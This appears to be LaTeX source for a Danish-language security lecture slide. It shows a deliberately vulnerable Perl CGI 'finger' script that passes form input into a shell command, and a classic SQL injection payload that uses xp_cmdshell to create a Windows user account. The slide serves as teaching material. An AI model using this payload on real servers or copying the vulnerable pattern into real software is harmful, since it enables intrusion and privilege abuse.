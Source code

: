 \documentclass[20pt,landscape,a4paper,footrule]{foils}
\begin{document}

{\small
\begin{verbatim}
print "Content-type: text/html\n\n<html>";
print "<body bgcolor=#666666 leftmargin=20 topmargin=20";
print "marginwidth=20 marginheight=20>";
print <<XX;
<h1>Bad finger command!</h1>
<HR COLOR=#000>
<form method="post" action="bad_finger.cgi">
Enter userid: <input type="text" size="40" name="command">
</form>
<HR COLOR=#000>
XX
if(&ReadForm(*input)){
    print "<pre>\n";
    print "will execute:\n/usr/bin/finger $input{'command'}\n";
    print "<HR COLOR=#000>\n";
    print `/usr/bin/finger $input{'command'}`;
    print "<pre>\n";
}
\end{verbatim}}



\begin{list1}
\item SQL Injection FAQ
:
\item \begin{alltt}\small
Set myRecordset = myConnection.execute
("SELECT * FROM myTable
WHERE someText ='" & request.form("inputdata") & "'")
med input: ' exec master..xp_cmdshell 'net user test testpass /ADD' --
\end{alltt}
\item modtager og udfører serveren:
\item \begin{alltt}
SELECT * FROM myTable
WHERE someText ='' exec master..xp_cmdshell
'net user test testpass /ADD'--'
\end{alltt}
\item -- er kommentar i SQL
\item Derefter er det kun platformen, OS, og rettighederne der afgør problemets omfang
\end{list1}

\centerline{Dette er den klassiske SQL injection mod Windows, fra ~2000}




\end{document}
